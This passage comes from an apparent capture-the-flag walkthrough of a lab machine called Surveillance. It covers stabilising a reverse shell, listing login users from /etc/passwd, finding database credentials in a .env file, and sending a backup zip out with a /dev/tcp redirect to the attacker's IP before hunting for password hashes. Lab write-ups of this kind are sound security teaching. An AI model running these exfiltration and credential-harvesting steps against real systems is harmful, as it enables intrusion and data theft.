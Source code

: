 * ``script /dev/null -c bash``: Spawns a tty.
* ``ctrl+z``: puts the shell in background for later doing a treatment.
* ``stty raw -echo;fg``: give us the shell back again.
* ``reset xterm``: resets the terminal to give us the bash console.
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal.
* ``export SHELL=bash``: specifies the system that we are using a bash console.
* ``stty rows <YOUR ROWS> columns <YOUR COLUMNS>``: establishes the size of the current full terminal window, you can view the adequate running stty size on your machine.

# Access as matthew

Let's see the users that have a shell in this machine:

```plaintext
www-data@surveillance:~/html/craft$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
```

Without root, we have matthew and zoneminder.

Now I will search for configuration files in the webroot that has credentials for some user.

In /var/www/html/craft/.env we can see credentials for connection to the MySQL database of the user craftuser. When we access as that user in the database, we see an admin hash but it seems that isn't crackable.

Now if we look in `/var/www/html/craft/storage/backups`, we have a zip, let's transfer it to my machine using `cat [FILE TO TRANSFER] > /dev/tcp/<YOUR IP>/<YOUR LISTENING PORT>`.

![Transfering SQL backup](/assets/images/Surveillance/transfer_sql_backup.png)

Next, I will proceed to unzip it and inspect it:

```plaintext
❯ unzip surveillance_backup.zip
Archive:  surveillance_backup.zip
  inflating: surveillance--2023-10-17-202801--v4.4.14.sql  
❯ file surveillance--2023-10-17-202801--v4.4.14.sql
surveillance--2023-10-17-202801--v4.4.14.sql: ASCII text
```

Let's grep for the command "INSERT INTO" to see which values are inserted in the tables and see if we can retrieve some hash of some user:
